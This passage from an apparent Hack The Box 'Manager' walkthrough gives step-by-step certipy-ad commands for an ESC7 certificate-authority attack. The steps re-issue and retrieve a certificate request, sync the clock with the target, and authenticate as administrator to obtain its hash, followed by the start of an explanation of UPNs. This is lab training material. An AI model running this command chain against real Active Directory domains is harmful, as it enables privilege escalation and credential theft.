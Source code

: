 
#### Step 4 Re-issue our failed cert: {#step-4-re-issue-our-failed-cert}

-   **We re-issue our failed cert**:
    -   `certipy-ad ca -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -issue-request 23 -debug`
        -   {{< figure src="/ox-hugo/2024-09-21-195847_.png" >}}


#### Step 5 Retrieve the issued cert and download as `.pfx`: {#step-5-retrieve-the-issued-cert-and-download-as-dot-pfx}

-   **We request our re-issued cert and download it**:
    -   `certipy-ad req -u $user@manager.htb -p $pass -dc-ip $box -ca manager-dc01-ca -retrieve 23 -debug`
        -   {{< figure src="/ox-hugo/2024-09-21-200201_.png" >}}


#### Step 6 Retrieve the Admin Hash: {#step-6-retrieve-the-admin-hash}

-   **Sync your clock first**:
    -   For the love all that is HOLY do this before you progress any further!!
        -   Sync your Kali/attack host clock with the box. The reason is if you do not, kerberos will be unhappy and not let you progress. This is a security mechanism.
            -   If you see the below error this is most likely down to your attack host clock being too out of sync with the target.
                -   {{< figure src="/ox-hugo/2024-09-21-201233_.png" >}}

    -   **If you are on kali do the following**:
        -   `sudo apt install ntpdate`
        -   Ensure that you have the host in your `/etc/hosts` file &amp; then run: `sudo ntpdate -s manager.htb` this will sync your clocks.

-   **Retrieve Admin Hash!**:
    -   `certipy-ad auth -pfx administrator.pfx`
        -   {{< figure src="/ox-hugo/2024-09-21-201449_.png" >}}


### Attack Deep-Dive e.g. Exploiting UPNs in ESC7 Attacks: A Hacker's Guide: {#attack-deep-dive-e-dot-g-dot-exploiting-upns-in-esc7-attacks-a-hacker-s-guide}

-   **What's a UPN and Why Do We Care?**
    -   First things first: `UPN` stands for User Principal Name (UPN). They're commonly used when issuing certificates from a Microsoft Certificate Authority (CA) for user authentication. Here's why they're so important:
        1.  They represent identity in certificates, usually in the Subject Alternative Name (SAN) extension.
        2.  They link certificates to specific Active Directory accounts.
        3.  They enable certificate mapping for authentication.
        4.  They facilitate Single Sign-On (SSO) scenarios.
        5.  They're used in smart card logons.
        6.  Sometimes, they even correspond to email addresses.
